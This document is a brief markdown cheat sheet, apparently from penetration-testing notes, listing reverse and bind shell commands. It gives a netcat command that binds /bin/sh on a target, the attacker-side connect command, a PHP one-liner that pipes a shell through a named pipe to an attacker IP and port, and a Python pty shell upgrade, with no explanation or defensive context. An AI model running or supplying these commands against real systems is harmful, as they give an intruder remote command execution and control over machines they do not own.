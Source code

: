 # ↕️ Reverse shell

## nc

Inside the target machine

```bash
nc -lnvvp <port> -e /bin/sh
```

To connect from the attacker machine:

```bash
nc <host> <port>
```

## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```

## Python

```py
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
